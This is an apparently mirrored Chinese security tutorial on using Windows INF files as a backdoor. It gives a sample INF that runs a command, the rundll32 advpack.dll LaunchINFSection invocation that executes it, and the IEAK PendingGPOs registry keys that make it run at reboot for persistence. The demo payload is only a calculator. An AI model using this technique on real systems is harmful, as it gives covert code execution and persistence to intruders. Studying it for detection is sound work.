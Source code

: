 # 利用inf文件实现后门

> 原文：[https://www.zhihuifly.com/t/topic/3526](https://www.zhihuifly.com/t/topic/3526)

## 利用inf文件实现后门

`inf`文件

```
INF文件或安装信息文件是Microsoft Windows用于安装软件和驱动程序的纯文本文件。INF文件最常用于安装硬件组件的设备驱动程序。Windows包含用于创建基于INF的安装的IExpress工具。INF文件是Windows安装程序API及其后续版本Windows Installer的一部分。
PS：来自WIKI
inf`文件的结构
想了解更多可以看一下微软的手册：`https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-2000-server/cc939869(v=technet.10)#information-inf-file-entries
1\. DefaultInstall节（来自WIKI）
INF文件的结构与INI文件的结构非常类似; 它包含用于指定要复制的文件，对注册表的更改等的各个部分。所有INF文件都包含一个[Version]带有Signature 键值对的部分，用于指定INF文件所针对的Windows版本。签名通常是$CHICAGO$（对于Windows 9x）或$WINDOWS NT$（对于Windows NT / 2K / XP）。其余大多数部分是用户定义的，并且包含特定于要安装的组件的信息。 
3.  `DefaultInstall节（来自微软的手册）

    RunPreSetupCommands-本节中指定的命令在安装服务配置文件之前运行。

    RunPostSetupCommands-本节中指定的命令在安装程序完成服务配置文件后运行。

    RunPreUnInstCommands-本节中指定的命令在卸载程序开始之前运行。

    RunPostUnInstCommands-本节中指定的命令在卸载程序运行后运行。` 

```

下面举一个`calc.inf`弹计算器的例子

```
[Version]
Signature="$CHICAGO$"
AdvancedINF=2.5,"test"
[DefaultInstall]
RunPreSetupCommands=Command1
[Command1]
C:\windows\system32\calc.exe 
```

命令行下执行：

```
rundll32.exe advpack.dll,LaunchINFSection calc.inf,DefaultInstall 
```

效果如下：

![image](img/b99dd59e996f8eb17905e3dce8e351d6.png)

后门实现：
在注册表`HKEY_CURRENT_USER\Software\Microsoft\`处依次新建子项`\IEAK\GroupPolicy\PendingGPOs`，然后再新建几个键，如下：

1.  键：`Count`，类型：`REG_DWORD`，键值：`1`
2.  键：`Path1`，类型：`REG_SZ`，键值：`C:\Users\Administrator\Desktop\test\calc.inf` //这个为我们inf文件的路径，这里以上面那个inf文件例子为例
3.  键：`Section1`，类型：`REG_SZ`，键值：`DefaultInstall`

如下图所示：

![image](img/7a3e43fde53ef2c9168d83ca8f21a032.png)

重启电脑之后成功弹出计算器

![image](img/3cf53ef528e55dda09ffbfe112ab6d93.png)

但是重启之后`PendingGPOs`该项就会被清除，需要我们重新修改注册表

![image](img/d5929cf06034c2498bee0774b7d1915d.png)